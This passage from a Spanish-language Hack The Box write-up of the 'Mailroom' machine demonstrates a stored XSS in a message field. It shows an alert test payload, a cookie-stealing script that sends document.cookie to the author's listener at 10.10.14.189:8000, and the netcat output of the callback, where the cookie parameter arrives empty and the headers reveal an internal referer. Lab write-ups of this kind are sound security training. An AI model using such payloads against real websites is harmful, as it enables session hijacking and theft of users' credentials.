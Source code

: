 ### **XSS**

Enviando `<script>alert(1);</script>` en el campo message, obtenemos el alert.

![alert](/assets/hackthebox/img/machines/hard/mailroom/alert.png)

En este punto tratemos de robar alguna cookie, existe la posibilidad que esa IA tenga alguna una cookie de sesion la cual le permite acceder a alguna funcionalidad de la web para ver nuestro mensaje, que nosotros no tenemos.

Utilizo `<script>document.location="http://10.10.14.189:8000/?c=" + document.cookie</script>`.

Utilizar netcat revela algunos headers interesantes como el referer.

{% highlight sh %}
λ ubuntu-pc Mailroom → nc -lnvp 8000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.11.209.
Ncat: Connection from 10.10.11.209:33036.
GET /?c= HTTP/1.1
Host: 10.10.14.189:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
{% endhighlight %}
